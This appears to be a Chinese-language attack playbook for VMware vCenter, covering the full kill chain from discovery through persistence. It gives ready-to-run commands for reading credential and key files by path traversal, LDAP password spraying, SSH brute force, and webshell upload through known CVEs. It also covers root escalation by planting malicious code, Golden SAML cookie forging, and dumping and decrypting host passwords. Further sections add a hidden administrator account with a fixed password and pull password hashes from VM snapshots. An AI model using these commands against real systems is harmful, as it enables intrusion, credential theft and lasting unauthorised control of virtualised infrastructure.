# vCenter Attack Surface - vCenter攻击面

## 信息收集

### SOAP版本探测

- 使用nuclei扫描目标vCenter版本信息

```shell
nuclei.exe -t nuclei-templates\http\technologies\vmware\vmware-detect.yaml -l host.list
```



### 任意文件读取

- 使用nuclei扫描目标查看是否存在任意文件读取漏洞

```shell
# Windows POC 如下
nuclei.exe -t nuclei-templates\http\vulnerabilities\vmware\vmware-vcenter-lfi.yaml -l host.list
```


```shell
# Linux POC 如下
nuclei.exe -t nuclei-templates\http\vulnerabilities\vmware\vmware-vcenter-lfi-linux.yaml -l host.list
```



#### PSQL数据库凭据泄露

- 访问目标服务器vcdb.properties获取数据库账号密码等敏感信息

```shell
# Windows 访问
https://<目标IP>/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```


```shell
# Linux 访问
https://<目标IP>/eam/vib?id=/etc/vmware-vpx/vcdb.properties
```


#### vCenter备份文件泄露

- 获取data.mdb（用于制作Golden SAML）

```shell
# Windows 访问
https://<目标IP>/eam/vib?id=C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
# Linux 访问
https://<目标IP>/eam/vib?id=/storage/db/vmware-vmdir/data.mdb
```

#### 密钥文件泄露

- 获取symkey.dat（用于利用CVE-2022-22948漏洞）

```shell
# Windows 访问
https://<目标IP>/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
```


```shell
# Linux 访问
https://<目标IP>/eam/vib?id=/etc/vmware-vpx/ssl/symkey.dat
```

### LDAP 密码爆破

- 用户枚举脚本

```shell
target=172.28.48.27
for username in $(cat user.txt); do echo -e "\n$username"; ldapsearch -x -H ldap://$target -D "CN=$username,CN=Users,DC=vsphere,DC=local" -w $username -b "DC=vsphere,DC=local" | grep "# numEntries"; done
unset target
```

- 密码喷洒脚本

```shell
target=172.28.48.27
account=root
for i in $(cat pass.txt); do echo -e "\n$i"; ldapsearch -x -H ldap://$target -D "CN=$account,CN=Users,DC=vsphere,DC=local" -w $i -b "DC=vsphere,DC=local" | grep "# numEntries"; done
unset target
unset account
```

### SSH爆破

```shell
hydra -L user.txt -P pass.txt ssh://172.28.48.27 -s 22 -vV
```

## 漏洞利用

### CVE-2021-21985

- 使用nuclei扫描目标查看是否存在CVE-2021-21985漏洞

```shell
nuclei.exe -t nuclei-templates\http\cves\2021\CVE-2021-21985.yaml -l host.list
```


- 使用VcenterKiller利用CVE-2021-21985漏洞

```shell
./vckiller_linux_amd64 -u https://<目标IP> -m 21985 -c whoami
```

### CVE-2021-22005

- 使用nuclei扫描目标查看是否存在CVE-2021-22005漏洞

```shell
nuclei.exe -t nuclei-templates\http\cves\2021\CVE-2021-22005.yaml -l host.list
```



- 使用cve-2021-22005-exp利用CVE-2021-22005漏洞

```shell
python3 exp.py -t https://<目标IP>/ -s shell.jsp
```


- 显示phAsyncTaskExecutor-5  WARN  root即上传webshell成功

```shell
curl --insecure https://<目标IP>/idm/..;/<webshell文件名>.jsp
```


### log4j2 JNDI注入 - CVE-2021-44228

- 使用nuclei扫描目标查看是否存在log4j2 JNDI注入漏洞

```shell
nuclei.exe -t nuclei-templates\http\vulnerabilities\vmware\vmware-vcenter-log4j-jndi-rce.yaml -l host.list
```

- 使用VcenterKiller利用log4j2 JNDI注入漏洞

```shell
.\vckiller_windows_amd64.exe -u https://<目标IP> -m log4center -t exec -c whoami
```

### Provider-logo SSRF

- 使用nuclei扫描目标查看是否存在Provider-SSRF漏洞

```shell
nuclei.exe -t nuclei-templates\http\vulnerabilities\vmware\vmware-vcenter-ssrf.yaml -l host.list
```

### CVE-2021-21972

- 使用nuclei扫描目标查看是否存在CVE-2021-21972漏洞

```shell
nuclei.exe -t nuclei-templates\http\cves\2021\CVE-2021-21972.yaml -l host.list
```


#### 上传webshell

- 使用CVE-2021-21972上传webshell

```shell
python3 CVE-2021-21972.py -url https://<目标IP>
```


- 查看webshell是否上传成功

```
curl --insecure https://<目标IP>/ui/resources/shell.jsp
```

#### 上传ssh公钥

- 使用VcenterKiller上传ssh公钥

```shell
./vckiller_linux_amd64 -u https://<目标IP> -m 21972 -f .ssh/id_rsa.pub -t ssh
```

### CVE-2019-5544

- 使用check_slp探测CVE-2019-5544漏洞

```shell
python3 check_slp.py host.list
```

### CVE-2020-3992

- 使用check_slp探测CVE-2020-3992漏洞

```shell
python3 check_slp.py host.list
```

### CVE-2021-21994

//TODO

## 权限提升

### vsphere-ui权限提升（CVE-2021-22015）

- 查看java-wrapper-vmon是否属于用户组cis

```shell
ls -al /usr/lib/vmware-vmon/java-wrapper-vmon
```


- 查看vsphere-ui是否具有cis用户组权限

```shell
cat /etc/group|grep cis
```


- 把恶意代码写入java-wrapper-vmon脚本，如：反弹shell、写入root权限的webshell
- 重启服务即可获取root权限

```shell
service-control --start --all
```

## 权限获取

### Golden SAML

- 获取data.mdb

```shell
# Windows 访问
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
```

```shell
# Linux 访问
/storage/db/vmware-vmdir/data.mdb
```



- 使用vcenter_saml_login创建COOKIE

```shell
python3 vcenter_saml_login.py -p data.mdb -t <vCenter服务器IP>
```


- 打开火狐浏览器，使用hackbar，设置COOKIE，即可登陆vCenter后台



### 标识凭据窃取（CVE-2022-22948）

- 查看数据库凭据信息

```shell
# windows
type  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties
```

```shell
# linux
cat /etc/vmware-vpx/vcdb.properties
```


- 获取vpxuser用户密码的密文

  - psql数据库（PS：需要交互式shell）

  ```shell
  psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;"
  ```

  

  - mssql数据库

  ```shell
  sqlmap -d mssql://<用户>:<密码>@<IP:PORT>/VCDB --batch -D VCDB -T VPX_HOST -C "IP_ADDRESS,USER_NAME,PASSWORD" --dump
  ```

  

  - 密文格式必须严格按照下方格式：ip前后只允许一个空格，密文前一个空格，密文后不允许空格

  ```shell
    ip_address   | user_name |                                         password                                          
  ---------------+-----------+-------------------------------------------------------------------------------------------
   192.168.24.81 | vpxuser   | *Sijef7ou82MqEDfYVx3KtaJYZctrodsUJJELnzHawTdkhWmxumDa2mh7l1eKasT0/Lnv8CfutQWEDGYgta70xw==
  ```

- 获取密钥symkey.dat

```shell
# windows
type C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\ssl\symkey.dat
```

```shell
# linux
cat /etc/vmware-vpx/ssl/symkey.dat
```


- 使用vhost_password_decrypt解密vpxuser用户密码

```shell
python3 decrypt.py symkey.dat password.enc password.txt
```


- 使用vpxuser账号登录ESXI后台



## 权限维持

### LDAP新增用户

- 使用vCenterLDAP_Manage新增用户（PS：需要交互式shell）
  - 新增username：`secadmin`
  - 新增dn：`cn=secadmin,cn=Users,dc=vsphere,dc=local`
  - 新增userPrincipalName：`secadmin@vsphere.local`

```shell
python3 vCenterLDAP_Manage.py adduser
```



- 新增用户后默认密码为P@ssWord123@@
- 检测是否成功添加用户

```shell
python3 vCenterLDAP_Manage.py getuser
```


- 为secadmin添加管理员权限
  - 添加user dn：`cn=secadmin,cn=Users,dc=vsphere,dc=local`

```shell
python3 vCenterLDAP_Manage.py addadmin
```



- 检测是否成功添加管理员权限

```shell
python3 vCenterLDAP_Manage.py getadmin
```


- 使用用户`secadmin@vsphere.local`和密码`P@ssWord123@@`登陆vCenter后台即可



### 强制重置用户密码

- 使用vmafd-cli查询域名

```shell
/usr/lib/vmware-vmafd/bin/vmafd-cli get-domain-name --server-name localhost
```


- 使用vdcadmintool重置Administrator用户密码（PS：为了不影响业务这里使用`secadmin@vsphere.local`账号）
  - 输入用户名：`Administrator@vsphere.local`

```shell
/usr/lib/vmware-vmdir/bin/vdcadmintool
```



## 虚拟机权限获取

### Kon-Boot利用

//TODO

### VMDK文件挂载

//TODO

### 快照读取HASH

- 进入vCenter管理后台后，使用鼠标右键点击目标虚拟机
- 创建虚拟机快照

```
Snapshots -> Take Snapshot
```

- 进入目标虚拟机存储桶，获取vmem文件

```
Datastores -> <存储桶名称> -> Files -> <刚才创建快照的文件名> -> <刚才创建快照的文件名>.vmem
```

- 使用volatility对镜像进行识别

```shell
./volatility -f <刚才创建快照的文件名>.vmem imageinfo
```

- 获取镜像hash

```shell
./volatility -f <刚才创建快照的文件名>.vmem --profile=WinXPSP2x86 hashdump
```

### 利用PE获取虚拟机权限

//TODO
